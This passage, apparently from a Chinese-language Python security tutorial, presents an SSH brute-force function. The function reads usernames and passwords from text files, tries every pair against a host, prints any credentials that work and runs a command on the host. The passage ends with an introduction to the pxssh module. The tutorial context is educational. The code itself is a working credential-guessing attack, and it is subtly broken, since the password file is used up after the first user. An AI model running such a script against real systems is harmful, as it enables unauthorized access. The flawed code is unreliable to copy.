 ```
            code = 1
        except socket.error as e:
            code = 2
            self.ssh.close()
        return code
```

对于暴力过程，我们可以定义一个函数，该函数迭代用户和密码的文件，并尝试为每个组合与`ssh`建立连接：

```py
 def startSSHBruteForce(self,host): try:
            #open files dictionary
            users_file = open("users.txt")
            passwords_file = open("passwords.txt")
            for user in users_file.readlines():
                for password in passwords_file.readlines():
                    user_text = user.strip("\n")
                    password_text = password.strip("\n")
                    try:
                    #check connection with user and password
                        response = self.ssh_connect(host,user_text,password_text)
                        if response == 0:
                            print("[*] User: %s [*] Pass Found:%s" %(user_text,password_text))
                            stdin,stdout,stderr = self.ssh.exec_command("ifconfig")
                            for line in stdout.readlines():
                                print(line.strip())
                            sys.exit(0)
                        elif response == 1:
                            print("[*]Login incorrect")
                        elif response == 2:
                            print("[*] Connection could not be established to %s" %(host))
                            sys.exit(2)
                except Exception as e:
                    print("Error ssh connection")
                    pass
            #close files
            users_file.close()
            passwords_file.close()
        except Exception as e:
            print("users.txt /passwords.txt Not found")
            pass
```

# 与 pxsh 的 SSH 连接

`pxssh`是一个基于 Pexpect 的 Python 模块，用于建立 SSH 连接。它的类扩展了`pexpect.spawn`以专门设置 SSH 连接。

`pxssh`是一个专门的模块，提供了与 SSH 会话直接交互的具体方法，如`login()`、`logout()`、`prompt()`。

**pxssh 文档**

We can find official documentation on the `readthedocs` site for the `Pexpect` module at  [http://pexpect.readthedocs.io/en/stable/api/pxssh.html.](https://pexpect.readthedocs.io/en/stable/index.html)
